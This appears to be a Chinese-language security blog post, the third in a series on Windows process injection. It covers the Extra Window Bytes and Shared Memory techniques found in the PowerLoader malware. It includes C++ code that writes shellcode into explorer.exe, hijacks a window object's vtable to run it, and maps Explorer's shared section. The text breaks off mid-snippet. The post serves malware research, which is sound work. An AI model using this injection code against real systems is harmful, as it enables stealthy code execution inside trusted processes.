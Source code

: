 ```yaml
---
title: Windows进程注入技术总结(三)
author: iaB
categories:
- Windows
tags: 
- Inject 
date: 2021-05-14 07:30:00
excerpt: 前两次得文章已经介绍过了部分进程注入得写入和执行得方法,随着时间继续推移,在研究人员与恶意代码得对抗过程中又产生了许多新得方式.
---
```


# 概述  
之前已经介绍过一些方法,像WriteProcessMemory,CreateRemoteThread+Loadlibrary,CreateRemoteThread+payload,NtQueueApcThread,SetWindowsHookEx这类比较简单易用的,又有Ghost-Writing这种又稍显复杂.这篇我们继续介绍一些在之后的研究,研究员们从恶意代码中发现的又或是自己发现的一些新的方式.  
### Extra Window Bytes  
这种方法被发现于一款名为PowerLoader的恶意代码当中,它通过劫持一些特定窗口类的虚函数表,目的时修改表中的回调函数,所以使用这种方法前,需要对目标进程有充分的了解才.这里的示例使用的是explorer.exe,窗口类名为Shell_TrayWnd,通过伪造CTray对象来实现目的  
> a. 可以使用任意的认为合适的写方法将shellcode写入到目标进程当中.  
> b. 再将我们设计好的CTray对象写入到目标进程当中  
> c. 使用SetWindowLongPtr去修改窗口0字节处所指向的对象(本质上是一个虚表),指向我们所写入的CTray结构  
> d. 使用SendNotifyMessageA去触发消息循环调用窗口回调函数  
```cpp  
HWND hWindow = FindWindowA("Shell_TrayWnd", NULL);
DWORD process_id;
GetWindowThreadProcessId(hWindow, &process_id); DWORD64 old_obj = GetWindowLongPtrA(hWindow, 0);
HANDLE h = OpenProcess(PROCESS_VM_WRITE | PROCESS_VM_OPERATION, false, process_id);
LPVOID target_payload = VirtualAllocEx(h, NULL, sizeof(payload), MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE); WriteProcessMemory(h, target_payload, payload, sizeof(payload), NULL);
DWORD64 new_obj[2];
LPVOID target_obj = VirtualAllocEx(h, NULL, sizeof(new_obj), MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);
new_obj[0] = (DWORD64)target_obj + sizeof(DWORD64);
new_obj[1] = (DWORD64)target_payload;
WriteProcessMemory(h, target_obj, obj, sizeof(new_obj), NULL);
SetWindowLongPtrA(hWindow, 0, (DWORD64)target_obj);
SendNotifyMessageA(hWindow, WM_PAINT, 0, 0); Sleep(1); SetWindowLongPtrA(hWindow, 0, old_obj);
```  
我们最好是要提前利用GetWindowLongPtrA去保存原有的对象地址,方便我们在触发执行shellcode后恢复原来的环境.  
### Shared Memory  
刚刚介绍的是PowerLoader的执行方法,现在介绍它使用的写方法.它利用了Explorer程序中已经创建的section对象,将其直接映射到自身的进程当中进行读写.  

> a. 利用OpenFileMapping打开Explorer中的Map内存,并映射到当前进程当中  
> b. 将shellocode拷贝进内存当中  
> c. 使用VirtualQueryEx去遍历目标进程的内存地址,为的是找到shellcode在目标进程中的地址  
> d. 使用寻找到的地址利用执行方法去执行shellcode  
```cpp  
HANDLE hm = OpenFileMapping(FILE_MAP_ALL_ACCESS,FALSE,section_name);
BYTE* buf = (BYTE*)MapViewOfFile(hm, FILE_MAP_ALL_ACCESS, 0, 0, section_size);
memcpy(buf+section_size-sizeof(payload), payload, sizeof(payload));
HANDLE h = OpenProcess(PROCESS_QUERY_INFORMATION | PROCESS_VM_READ, FALSE, process_id);
char* read_buf = new char[sizeof(payload)];
SIZE_T region_size;
for (DWORD64 address = 0; address < 0x00007fffffff0000ull; address += region_size)
{
MEMORY_BASIC_INFORMATION mem;
SIZE_T buffer_size = VirtualQueryEx(h, (LPCVOID)address, &mem, sizeof(mem));
if ((mem.Type == MEM_MAPPED) && (mem.State == MEM_COMMIT) && (mem.Protect == PAGE_READWRITE) && (mem.RegionSize == section_size))
{
```